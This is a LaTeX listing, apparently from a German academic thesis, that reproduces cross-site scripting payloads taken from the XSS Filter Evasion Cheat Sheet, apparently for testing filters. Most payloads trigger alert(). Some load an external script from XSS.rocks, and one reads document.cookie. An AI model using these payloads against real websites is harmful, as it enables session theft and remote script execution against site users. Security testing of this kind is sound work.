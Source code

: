 \begin{lstlisting}[caption={Verwendete Payloads des XSS Filter Evasion Cheat Sheet},label=lst:payload-list]
<a onmouseover="alert(1)">XSS</a>
<img src="javascript:alert('XSS');">
<img """><script>alert(1)</script>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<img src=# onmouseover="alert(1)">
<img src= onmouseover="alert(1)">
<img src=/ onerror="alert(1)"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099 #0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108& #0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083& #0000083&#0000039&#0000041">
<IMG SRC="jav	ascript:alert(1);">
<SCRIPT/XSS SRC="http://XSS.rocks/XSS.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://XSS.rocks/XSS.js?< B >
\";alert('XSS');//
</script><script>alert('XSS');</script>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<BODY ONLOAD=alert('XSS')> <BODY ONLOAD =alert('XSS')>
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<IMG STYLE="XSS:expr/*XSS*/ession(alert('XSS'))">
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");} </STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")} </STYLE>
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
\end{lstlisting}

\newpage

